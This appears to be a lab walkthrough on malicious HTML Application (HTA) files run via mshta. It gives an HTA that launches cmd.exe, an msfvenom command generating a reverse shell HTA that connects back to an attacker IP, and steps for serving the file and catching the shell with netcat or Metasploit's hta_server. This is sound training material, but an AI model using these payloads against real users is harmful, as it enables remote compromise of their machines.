







An HTML Application (HTA)
HTA stands for “HTML Application.” It allows you to create a downloadable file that takes all the information regarding how it is displayed and rendered. HTML Applications, also known as HTAs, which are dynamic HTML pages containing JScript and VBScript. The LOLBINS (Living-of-the-land Binaries) tool mshta is used to execute HTA files. It can be executed by itself or automatically from Internet Explorer.
Simple HTA Code to Start CMD
In the following example, we will use an ActiveXObject in our payload as proof of concept to execute cmd.exe. Consider the following HTML code.
$$$$$$$$$$$$$$$$$$$$$$$
<html>
<body>
<script>
var c= 'cmd.exe'
new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
$$$$$$$$$$$$$$$$$$$$$$$
Then serve the payload.hta from a web server, this could be done from the attacking machine as follows,

On the victim machine, visit the malicious link using Microsoft Edge, http://10.8.232.37:8090/payload.hta. Note that the 10.8.232.37 is the AttackBox's IP address.

Once we press Run, the payload.hta gets executed, and then it will invoke the cmd.exe. The following figure shows that we have successfully executed the cmd.exe.

HTA Reverse Connection
We can create a reverse shell payload as follows,
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh -o thm.hta

We use the msfvenom from the Metasploit framework to generate a malicious payload to connect back to the attacking machine. We used the following payload to connect the windows/x64/shell_reverse_tcp to our IP and listening port.
On the attacking machine, we will host this file in python web server & we need to listen to the port 443 using nc. Please note this port needs root privileges to open, or you can use different ones.
Once the victim visits the malicious URL and hits run, we get the connection back.

Malicious HTA via Metasploit
There is another way to generate and serve malicious HTA files using the Metasploit framework. First, run the Metasploit framework using msfconsole -q command. Under the exploit section, there is exploit/windows/misc/hta_server, which requires selecting and setting information such as LHOST, LPORT, SRVHOST, Payload, and finally, executing exploit to run the module.

We will use the URL provided above in the victim machine & run the hta file. We will recieve a reverse connection.
